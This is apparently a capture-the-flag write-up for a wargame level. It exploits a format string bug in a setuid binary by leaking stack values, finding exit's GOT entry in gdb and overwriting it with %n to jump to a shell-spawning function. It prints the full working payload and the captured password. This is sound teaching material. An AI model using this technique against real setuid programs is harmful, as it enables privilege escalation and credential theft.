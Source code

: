 # level5

```sh
$> ls -l ~
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```

```sh
$> python -c 'print("A"*4 + "%p "*6)' | ./level5 
AAAA0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x25207025 0x70252070
```
As we can see, the 4th pointer displayed is injectable.  

We first tried to inject change the buffer itself but it didn't worked.  
We then thought about changing `exit()` address to call `o()`.  

We first retrieved the address of `exit()`:

```sh
$> gdb -q level5
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:    0x080483d6
```

We have the address of `exit()` (`0x8049838`).  
Then we'll retrieve the address of `o()` to get the padding needed:

```sh
(gdb) info functions o
[...]
0x080484a4  o
```

We then need to convert the address in decimal (`0x080484a4` is `134513828`) and remove 4 bytes for the address of `exit`.  

We can finally replace the address of `exit()` with the address of `o()`:

```sh
$> python -c 'print("\x38\x98\x04\x08" + "%134513824d" + "%4$n")' > /tmp/payload

$> cat /tmp/payload - | ./level5
[...]
$ cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
